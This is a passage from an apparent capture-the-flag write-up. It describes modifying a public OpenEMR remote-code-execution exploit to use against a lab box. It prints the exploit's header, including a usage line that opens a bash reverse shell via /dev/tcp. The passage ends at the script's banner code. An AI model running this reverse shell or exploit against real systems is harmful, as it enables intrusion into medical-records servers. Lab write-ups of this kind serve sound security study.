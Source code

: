 Once we've logged in, we can use a RCE exploit (since we're an admin user), but we'll have to modify it a bit first:

https://www.exploit-db.com/exploits/45161

We need to visit http://hms.htb/interface/super/edit_globals.php, hit "Save" and catch the request with Burp (or ZAP). We'll now go into the exploit, remove form_284 from our request, and replace the old payload with our new one, so we don't overwrite any settings and mess up the box for other users. Once we've done this, we can run the exploit!

Fixed exploit:

```
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Author: Cody Zacharias
# Date: 2018-08-07
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References:
# https://www.youtube.com/watch?v=DJSQ8Pk_7hc
'''
WARNING: This proof-of-concept exploit WILL replace the GLOBAL config.
If you don't want the OpenEMR config to be reset to default, please modify
the payload.

Example Usage: 
- python openemr_rce.py http://127.0.0.1/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'
'''

#!/usr/bin/env python

import argparse
import base64
import requests
import sys

ap = argparse.ArgumentParser(description="OpenEMR RCE")
ap.add_argument("host", help="Path to OpenEMR (Example: http://127.0.0.1/openemr).")
ap.add_argument("-u", "--user", help="Admin username")
ap.add_argument("-p", "--password", help="Admin password")
ap.add_argument("-c", "--cmd", help="Command to run.")
args = ap.parse_args()

ascii = "> .---.  ,---.  ,---.  .-. .-.,---.          ,---.    <\r\n"
ascii+= ">/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   <\r\n"
ascii+= ">| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   <\r\n"
ascii+= ">| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    <\r\n"
ascii+= ">\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   <\r\n"
ascii+= "> )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  <\r\n"
ascii+= ">(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) <\r\n"
ascii+= "                                                       \r\n"
ascii+= "   ={>   P R O J E C T    I N S E C U R I T Y   <}=    \r\n"
ascii+= "                                                       \r\n"
ascii+= "         Twitter : >@Insecurity<                       \r\n"
ascii+= "         Site    : >insecurity.sh<                     \r\n"

green = "\033[1;32m"
red = "\033[1;31m"
clear = "\033[0m"

load = "[>$<] ".replace(">", green).replace("<", clear)
err = "[>-<] ".replace(">", red).replace("<", clear)
```